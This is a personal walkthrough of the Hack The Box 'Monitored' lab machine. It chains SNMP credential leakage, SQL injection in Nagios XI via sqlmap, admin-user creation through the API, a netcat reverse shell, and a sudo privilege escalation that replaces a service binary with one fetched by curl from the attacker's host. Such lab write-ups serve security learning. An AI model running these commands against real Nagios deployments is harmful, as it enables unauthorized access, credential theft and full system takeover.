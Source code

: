 ##  Initial Scans
Ip = `10.10.11.248`

### Ports and Services
#### Open Ports
```
Open 10.10.11.248:22
Open 10.10.11.248:80
Open 10.10.11.248:389
Open 10.10.11.248:443
Open 10.10.11.248:5667
```

#### Service Enumeration
```
80/tcp   open  http       syn-ack Apache httpd 2.4.56
|_http-title: Did not follow redirect to https://nagios.monitored.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.56 (Debian)
389/tcp  open  ldap       syn-ack OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   syn-ack Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Nagios XI
| ssl-cert: Subject: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK/emailAddress=support@monitored.htb/localityName=Bournemouth
| Issuer: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK/emailAddress=support@monitored.htb/localityName=Bournemouth

```

#### Nuclei
Interesting finds
```shell
[open-redirect-generic] [http] [medium] http://nagios.monitored.htb/////evil.com [redirect="////evil.com"]
[CVE-2018-11784] [http] [medium] http://nagios.monitored.htb//interact.sh
```

Trying this?
https://github.com/ruthvikvegunta/nagiosxi_rce-to-root

Didn't work so lets try somehin else

First lets try another rustscan an


Snmpwalk
```
snmpwalk -v2c -c public nagios.monitored.htb
```
This gives me a lot of detail and is overloading. Lets use `grep`

```
snmpwalk -v2c -c public nagios.monitored.htb | grep Strings
```
##### Results
```
Linux monitored 5.10.0-28-amd64 #1 SMP Debian 5.10.209-2 (2024-01-31) x86_64"
iso.3.6.1.2.1.1.4.0 = STRING: "Me <root@monitored.htb>"
iso.3.6.1.2.1.1.5.0 = STRING: "monitored"
iso.3.6.1.2.1.1.6.0 = STRING: "Sitting on the Dock of the Bay"
iso.3.6.1.2.1.1.9.1.3.1 = STRING: "The SNMP Management Architecture MIB."
iso.3.6.1.2.1.1.9.1.3.2 = STRING: "The MIB for Message Processing and Dispatching."
iso.3.6.1.2.1.1.9.1.3.3 = STRING: "The management information definitions for the SNMP User-based Security Model."
iso.3.6.1.2.1.1.9.1.3.4 = STRING: "The MIB module for SNMPv2 entities"
iso.3.6.1.2.1.1.9.1.3.5 = STRING: "View-based Access Control Model for SNMP."
iso.3.6.1.2.1.1.9.1.3.6 = STRING: "The MIB module for managing TCP implementations"
iso.3.6.1.2.1.1.9.1.3.7 = STRING: "The MIB module for managing UDP implementations"
iso.3.6.1.2.1.1.9.1.3.8 = STRING: "The MIB module for managing IP and ICMP implementations"
iso.3.6.1.2.1.1.9.1.3.9 = STRING: "The MIB modules for managing SNMP Notification, plus filtering."
iso.3.6.1.2.1.1.9.1.3.10 = STRING: "The MIB module for logging SNMP Notifications."
iso.3.6.1.2.1.1.9.1.3.11 = STRING: "The MIB module for logging SNMP Notifications."
iso.3.6.1.2.1.2.2.1.2.1 = STRING: "lo"
iso.3.6.1.2.1.2.2.1.2.2 = STRING: "VMware VMXNET3 Ethernet Controller"

"postgres"

"mariadb"

"php"

"sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups"

"-c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB"

"-c /usr/bin/php -q /usr/local/nagiosxi/cron/cmdsubsys.php >> /usr/local/nagiosxi/var/cmdsubsys.log 2>&1"
```

When we try to login we get `The specified user account has been disabled or does not exist.`
# SQLMap

Let's enumerate!
```
sqlmap -u "https://nagios.monitored.htb/"
```

Oh `[CRITICAL] no parameter(s) found for testing in the provided data (e.g. GET parameter 'id' in 'www.site.com/index.php?id=1').` Right...

I googled for about an hour an really only found this to be useful [Nagios XI Vulnerability: CVE-2023–40931 — SQL Injection in Banner](https://medium.com/@n1ghtcr4wl3r/nagios-xi-vulnerability-cve-2023-40931-sql-injection-in-banner-ace8258c5567)
In this article we found that we could use the `POST /nagiosxi/admin/banner_message-ajaxhelper.php`
as our way to sqlmap nagios. We can now use the credentials we have found to get a token
```shell
curl -ksX POST https://nagios.monitored.htb/nagiosxi/api/v1/authenticate -d 'username=svc&password=XjH7VCehowpR1xZB&valid_min=500'
```
Token: `4af6ee9379971aa1cb7bbf0f5bbc931571ad6a4b`

Now lets retry SQLMap

```shell
sqlmap -u "https://nagios.monitored.htb//nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=4af6ee9379971aa1cb7bbf0f5bbc931571ad6a4b" --level 5 --risk 3 -p id --batch -D nagiosxi --dump -T xi_users
```
From this we find a token and two password hashes.


Using the admin token we can create a new user with admin privileges
```shell
curl -XPOST --insecure "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=testuser&password=testuser&name=testuser&email=testuser@localhost&auth_level=admin"
```

It asks us to changes password, we do so. And we are in!

![[Pasted image 20240425172659.png]]

# Reverse Shell
using nagios admin priveleges we create a new service and add a custom command.

```
nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.248] 54244
bash: cannot set terminal process group (12715): Inappropriate ioctl for device
bash: no job control in this shell
nagios@monitored:~$ ls
ls
cookie.txt
user.txt
nagios@monitored:~$ cat user.txt
cat user.txt
00e6ec0baf23d4e12f08b43309b8d692
nagios@monitored:~$ 
```

# Priv Esc

The classic `sudo -l`
```
sudo -l
```

We see some interesting stuff mainly 
```
/usr/local/nagiosxi/scripts/manage_services.sh
/usr/bin/php
        /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/bin/php

```

```
cat /usr/local/nagiosxi/scripts/manage_services.sh
```

```
cd /usr/local/nagios/bin/

rm npcd
```


```
curl -O http://10.10.14.2:8000/npcd
```

```
chmod +x /usr/local/nagios/bin/npcd
```

```
sudo /usr/local/nagiosxi/scripts/manage_services.sh restart npcd
```

```
fb032368ebeba0e8369df5131f2fbf74
```

